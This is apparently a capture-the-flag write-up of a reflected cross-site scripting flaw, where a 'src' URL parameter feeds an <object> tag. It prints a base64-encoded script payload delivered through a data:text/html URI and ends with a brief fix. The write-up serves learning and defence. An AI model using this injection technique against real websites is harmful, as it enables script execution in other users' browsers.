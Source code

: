 On the home page we can see that just one image is clickable, it's redirect us to: `http://{IP}/?page=media&src=nsa`

After inspecting the HTML page we find the image displayed by `<object>`
And the data of the object tag chosen by the src variable in the url

```
<object data="http://{IP}/images/nsa_prism.jpg"></object>
```

| text/html                  | base64                           |
| -------------------------- | -------------------------------- |
| `<script>alert()</script>` | PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+ |

```
http://$IP/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+
```

---

> How to secure :
>
> - Validate and sanitize query parameters
